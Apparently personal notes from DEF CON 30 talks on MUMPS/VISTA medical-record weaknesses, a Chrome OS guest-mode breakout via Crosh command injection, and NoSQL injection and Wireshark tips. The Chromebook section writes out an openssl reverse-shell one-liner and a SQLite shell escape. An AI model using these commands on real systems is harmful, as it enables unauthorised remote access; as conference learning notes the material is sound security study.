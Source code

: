 # DEF CON 30

* **author**:: Nathan Acks
* **date**:: 2022-08-13

DEF CON talks in the morning, and another workshop this afternoon.

* [DEF CON 30](https://defcon.org/html/defcon-30/dc-30-index.html)

## How to Get MUMPS Thirty Years Later

SIDE NOTE: Zach uses a text-based slide generation tool called Moebius.

MUMPS is a versatile language (and development environment) originally developed for the VA. I predates \*NIX and is incredibly versatile - it's also used by other hospitals, police departments, banks, and even the ESA.

MUMPS has some interesting features: All keywords can be shortened to a single character. White space matters (except for newlines). Math is evaluated left-to-right (there's no sense of order of operations `O_o`). Dates are comma-delineated strings that start in 1838 (and support up to the year 9999).

MUMPS can be treated as both a scripted and compiled language.

More than 50% of all electronic medical records pass through some sort of MUMPS application.

VISTA is a platform for handling electronic medical records that is written in MUMPS specifically for use by the Veterans' Administration.

In hospitals, clients talk to VISTA using a network RPC. The most common client is CPRS (it's written in a slightly more modern language, DELPHI `O_o`).

CPRS/VISTA are *extremely* chatty on the network.

VISTA uses a roll-your-own encryption scheme from the 1990s. Encryption can be trivially broken. Packets can be replayed. And there are hard-coded creds (though Zach doesn't think that these are exploitable). So, be sure to layer TLS onto any MUMPS implementations!

Zach's had trouble getting the VA to talk to them, so disclosure's still ongoing here.

VISTA is *really* well-loved by the doctors who use it.

* [How to Get MUMPS Thirty Years later (or, Hacking the Government via FOIA'd Code)](assets/how-to-get-mumps-thirty-years-later-or-hacking-the-government-via-foiad-code-zachary-minneker.pptx)
* [Moebius ANSI Art Editor](https://blocktronics.github.io/moebius/)

## Chromebook Breakout

This is the Lost Rabbit Labs people. I saw them at a DC 303 meet-up.

This vulnerability was actually patched two years ago by Google…

This is a breakout from the Chrome OS guest user via the the Crosh shell using command injection in the `set_*` commands.

The Pico Ducky is a Rubber Ducky work-alike that runs on a Raspberry Pi Pico. It's much faster than Hak5's tool.

Interesting redirect trick - use `1>&2` to redirect STDOUT to STDERR (the reverse of what is normally done) to bypass some output filtering.

You can pipe `sh` through `openssl` for a reverse shell! Something like: `mkfifo /tmp/irl; /bin/sh -i < /tmp/irl 2>&1 | openssl s_client -quiet -connect 127.0.0.1:1337 > tmp/irl; rm /tmp/irl`

In older versions of Chrome OS, the Crosh shell could actually be launched in Dev Mode (without switching the entire box to Dev Mode) using `crosh --dev` (via `set_apn` command injection).

SQLite shell escape: `.shell bash`

Oof… There were (are?) hard-coded SSH public keys on Chrome OS; the corresponding private key was (is?) available in the Chromium code repo.

Chrome OS has a restricted `finger` command called `pinky` that's used internally.

If you can get to `dbus` on a Chromebook, you can access *some* (but not all!) Dev Mode tools (like `ping`).

(I wasn't able to catch the end of this presentation, however, as I needed to head out to my last workshop…)

* [Chromebook Breakout: Escaping Jail, With Your Friends, Using a Pico Ducky](assets/chromebook-breakout-escaping-jail-with-your-friends-using-a-pico-ducky-jimi-allee.pdf)
* [Pico Ducky](https://github.com/dbisu/pico-ducky)

## Securing Web Apps

TIL: There is such a thing as NoSQLi, and it's *way* easier than SQLi - just drop objects containing search operators into the NoSQL queries instead of actual data!

You can search within packets in Wireshark using the filter `frame contains "$TEXT_TO_SEARCH"`.

If you can find an encryption key in a packet dump, you can try applying them to encrypted packets in Wireshark using "Preferences > RSA Keys".

Wireshark can easily extract files from HTTP conversations. To extract them from raw TCP streams, (1) locate the beginning of the stream, (2) right-click on the packet and select "Follow > TCP Stream, (3) change "Show data as" to "Raw", and (4) save it off using "Save As".

* [Securing Web Apps](https://forum.defcon.org/node/241772)
* [How to pull off a successful NoSQL Injection attack](https://infosecwriteups.com/nosql-injection-8732c2140576)
